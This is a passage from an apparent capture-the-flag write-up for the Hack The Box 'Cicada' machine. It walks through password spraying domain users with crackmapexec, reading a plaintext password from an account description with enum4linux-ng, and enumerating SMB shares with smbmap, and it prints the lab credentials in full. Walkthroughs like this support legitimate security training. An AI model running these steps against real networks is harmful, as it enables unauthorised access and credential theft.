 Now that we have all domain users, we can try to brute-force found users with the default password found in the HR letter.

```bash
crackmapexec smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'

[+] cicada.htb\michael.wrightson:'Cicada$M6Corpb*@Lp#nZp!8'
```

We have micheal's credentials.

### enum4linux-ng with creds

With the obtained credentials we can run enum4linux-ng to find more domain informations.

```bash
enum4linux-ng 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

<pre><code><strong>&#x3C;SNIP>
</strong><strong>'1108':                                                                              
</strong>  username: david.orelious                     
  name: (null)                                                                    
  acb: '0x00000210'                            
  description: Just in case I forget my password is aRt$Lp#7t*VQ!3
&#x3C;SNIPP>
</code></pre>

We have obtained david credentials: `david.orelious:'aRt$Lp#7t*VQ!3'`

Let's enumerate other smb shares with this user.

```bash
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
```

<figure><img src="../../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

Read the content of DEV directory.

<figure><img src="../../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>
